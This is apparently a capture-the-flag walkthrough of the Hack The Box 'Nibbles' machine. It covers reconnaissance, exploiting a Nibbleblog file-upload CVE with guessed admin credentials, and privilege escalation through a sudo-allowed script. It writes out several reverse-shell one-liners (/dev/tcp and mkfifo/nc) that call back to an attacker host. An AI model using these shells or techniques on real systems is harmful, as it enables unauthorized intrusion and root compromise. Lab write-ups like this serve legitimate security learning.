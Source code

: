 # Nibbles
## Recon
I start byu scanning the machine with Nmap `nmap -sV -sC -Pn 10.10.10.75`, the flags are: port service version, default nmap script, treat host as up. The host showed that just port 22 (SSH) and port 80 (http website) were up.

Navigating to the webpage in my browser `10.10.10.75:80` didn't show anything useful, however viewing the page source leads you to the /nibbleblog directory. Here I started fuzzing directories with ffuf. Fuzzing from this directory, you find
```
content                 [Status: 301, Size: 323, Words: 20, Lines: 10, Duration: 266ms]
themes                  [Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 275ms]
admin                   [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 271ms]
plugins                 [Status: 301, Size: 323, Words: 20, Lines: 10, Duration: 266ms]
README                  [Status: 200, Size: 4628, Words: 589, Lines: 64, Duration: 267m]
```

I started by checking out the readme and noted down the Nibbleblog version being hosted:
```
====== Nibbleblog ======
Version: v4.0.3
Codename: Coffee
Release date: 2014-04-01
```

Checking Google for this version of Nibbleblog, and [CVE-2015-6967](https://www.exploit-db.com/exploits/38489) would allow me to gain a shell, even better, it's built into Metasploit under the plugin `multi/http/nibbleblog_file_upload`, I just need user creds.

I had a look around some of the other directories including admin and content, and noted that in some of the hosted XML files, there was a user called 'admin'. I didn't want to go through the hassle of fuzzing again for a login portal, so I googled the detault login page which is located at <IP_ADDRESS>/nibbleblog/admin.php.

## Foothold
I didn't have a plan for getting into the admin panel. I had a look on Google again for default nibbleblog creds but couldn't find anything, so I had a couple of attempts at SQL injection - no luck. I threw some common passwords - admin/password at it and quickly had my IP blacklisted. I now knew why this machine had such a low rating on HTB.

After a reset, I tried a couple more - password, password1, nibbles. We had a winner.

With admin/nibbles as my login creds, I went back to Metasploit, set RHOSTS, LHOST, LPORT, USERNAME, PASSWORD and the nibbleblog base directory and fired away. Shortly afterwards, I had a meterpreter connection to the box, quickly grabbing the user flag.

## Privesc
The shell was initially pretty flimsy, so I established a TTY shell with `/usr/bin/script -qc /bin/bash /dev/null`. Running `whoami`, I found I was a user called Nibbler.

The first thing I did was run `sudo -l` to see what commands I could run as root, Nibbles returned:
```
User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```
This was fantastic news, there was a script I most likely had access to that I could run directly as root for an easy PrivEsc.

I navigated to /home/nibbler, unzipped personal.zip and checked out monitor.sh. It didn't look particularly interesting, but I could surely append a line to spawn a shell for my host machine.

Initially I tried `echo '0<&196;exec 196<>/dev/tcp/10.10.14.4/9002; sh <&196 >&196 2>&196' > monitor.sh` and ran it with `sudo -u root ./monitor.sh`. No good, I was met with `Syntax error: Bad fd number`. After doing some research, I needed to spawn a shell for /bin/dash, not /bin/bash. Checking some other payloads, I tried: `echo 'bash -c ">& /dev/tcp/10.10.14.4/9002 0>&1"' >> monitor.sh` which was specifically aimed to remediate my issue. It was an improvement, no error message, but the shell was closing on my netcat listened as soon as I ran the script so I'd have to keep looking.

At this point I just tried different one liners until one worked. I ended up settling with `echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.4 9002 > /tmp/f" > monitor.sh`. After establishing a connection to the box on the target via this script, I had root access.
